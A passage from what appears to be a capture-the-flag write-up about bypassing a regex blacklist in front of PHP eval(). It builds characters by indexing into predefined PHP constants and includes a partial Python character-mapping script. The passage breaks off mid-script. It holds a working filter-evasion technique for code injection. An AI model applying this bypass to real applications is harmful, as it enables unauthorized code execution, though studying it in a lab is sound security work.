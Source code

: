 ```php
    if(preg_match('/\$|\?|`|\'|"|%|!|[0-9]|@|\(|\)|\^|&|\*|-|\+|=|<|>|\\|{|}|\/|\||true|false|null|secret/i', $_GET["yummy"]) || strlen($_GET["yummy"]) > 5000)
        die("Don't try harder");
    eval($_GET["yummy"]);
}
?>
</body>
</html>
```
We control the content of `eval`, but the filter does not allow us to use most special characters, we cannot use variables because the `$` character is not allowed, we cannot call functions because we cannot use parenthesis, also, we cannot use numbers.

Instead, we can use `echo` since the use of parentheses is not mandatory. Now we need something to show.

In PHP, if we enter a text without quotes that is not defined as a constant, it is converted to a string, but returns a Warning. In this case if we generate a warning, the execution is terminated with the message `I don't like errors and warnings`, so we cannot use this approach.

Since we cannot generate text, we are going to use the constants already defined in PHP. To get a list we use `get_defined_constants()` in our local docker.

```
    [E_ERROR] => 1
    [E_RECOVERABLE_ERROR] => 4096
    [E_WARNING] => 2
    [E_PARSE] => 4
    [E_NOTICE] => 8
    ...
    [PHP_PREFIX] => /usr
    [PHP_BINDIR] => /usr/bin
    [PHP_MANDIR] => /usr/share/man
    [PHP_LIBDIR] => /usr/lib/php
    [PHP_DATADIR] => /usr/share/php/7.3
    [PHP_SYSCONFDIR] => /etc
```

Once we have the list of constants, we obtain their values against the remote server using `echo CONSTANT`.

The next step is to get characters using the form `CONST_TEXT[CONST_NUMBER]`. For example, if we know that the constant `PHP_OS` is `Linux` and `PHP_ZTS` is `0`, we use `PHP_OS[PHP_ZTS]` to get `L`.

To speed up the replacement work I made a small *Python* script.

```python
letters = {
    '0': 'PHP_ZTS',
    '1': 'E_ERROR',
    '2': 'E_WARNING',
    '3': 'ZLIB_RLE',
    '4': 'E_PARSE',
    '5': 'ZLIB_BLOCK',
    '6': 'INPUT_SESSION',
    '7': 'UPLOAD_ERR_CANT_WRITE',
    '8': 'E_NOTICE',
    'L': 'PHP_OS[PHP_ZTS]',
    'S': 'OPENSSL_VERSION_TEXT[E_PARSE]',
    'O': 'OPENSSL_VERSION_TEXT[PHP_ZTS]',
    'a': 'PHP_LIBDIR[E_NOTICE]',
    'b': 'PHP_LIBDIR[ZLIB_BUF_ERROR]',
    'c': 'PHP_SAPI[ZLIB_BLOCK]',
	...
    's': 'PHP_LIBDIR[E_WARNING]',
    't': 'PHP_SYSCONFDIR[POSIX_RLIMIT_MSGQUEUE]',
    'u': 'PHP_OS[ZLIB_RLE]',
```